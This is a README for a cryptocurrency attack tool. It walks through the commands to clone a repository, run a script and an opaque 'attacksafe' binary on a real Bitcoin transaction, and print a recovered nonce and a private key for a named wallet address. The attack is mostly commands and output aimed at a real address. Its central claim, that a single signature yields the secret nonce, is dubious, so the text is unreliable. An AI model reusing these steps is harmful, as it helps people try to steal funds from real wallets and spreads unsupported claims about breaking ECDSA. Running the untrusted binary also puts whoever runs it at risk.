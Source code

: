 # Frey-Rück Attack

---

With a critical vulnerability in the Bitcoin blockchain transaction, we can solve the rather difficult discrete logarithm problem to extract the secret key "K" (NONCE) from the vulnerable ECDSA signature in order to ultimately restore the Bitcoin Wallet, since knowing the secret key we can get a private key. To do this, there are several algorithms from the list of popular attacks on Bitcoin, one of which is the “Frey-Rück Attack on Bitcoin”.



---

* Tutorial: https://youtu.be/wqHES7r1qyc
* Tutorial: https://cryptodeep.ru/frey-ruck-attack

---

# Commands:





    git clone https://github.com/demining/CryptoDeepTools.git


    cd CryptoDeepTools/14FreyRuckAttack/

    ls

    wget https://bootstrap.pypa.io/pip/2.7/get-pip.py

    sudo python2 get-pip.py

    pip2 install -r requirements.txt


---


## With a critical vulnerability, we can get the private key to the Bitcoin Wallet:


https://btc1.trezor.io/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG

https://btc1.trezor.io/tx/a575ef45375f85d6d3c010dae01df1479e2e0c5b870b80ee757fc2522057db72


---



    RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


    python2 breakECDSA.py 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


---


R = 0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff

S = 0x649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1

Z = 0xb8e936d143c8733bb1ede19146f8725fee1d10bfc19e14452a51cef0cb0014d8


---

# To implement the attack and get the secret key, we will use the software: “ATTACKSAFE SOFTWARE” [ https://attacksafe.ru/software ]


---

    chmod +x attacksafe


---

    ./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt


---



## We launched this attack from -tool frey_ruck_attack and the result is saved to the file SecretKey.txt


    cat SecretKey.txt


    Deployments ECDSA:

    SecretKey = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3


    RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


---


## We see the inscription "Deployments ECDSA" which means a critical vulnerability in the Bitcoin blockchain transaction

SecretKey value in HEX format, this is our secret key "K" (NONCE):

K=0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3


---


    pip3 install ECPy


    python3 point2gen.py 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3



    R          =       0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff
    point2gen  =   (0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff , 0x92718ef50eb3f5eb155a244e371194fb5086e58f1d174e88cda0a60a2ed899f7)


---


# ALL CORRECT!


K=0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3

## Now knowing the secret key, we can get the private key to the Bitcoin Wallet: 16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG


The script: calculate.py will calculate the private key using the formula:
Privkey = ((((S * K) - Z) * modinv(R,N)) % N)


---


    python3 calculate.py


---


## PrivKey = 4faa01f7409813181fb5ae8d352796b791cd9df4ba0650df7008f5d9d6be8766



---


---

* Tutorial: https://youtu.be/wqHES7r1qyc
* Tutorial: https://cryptodeep.ru/frey-ruck-attack

---


|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2kh9WzCActXSGHxyypGLkqQZfxDpw8v |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
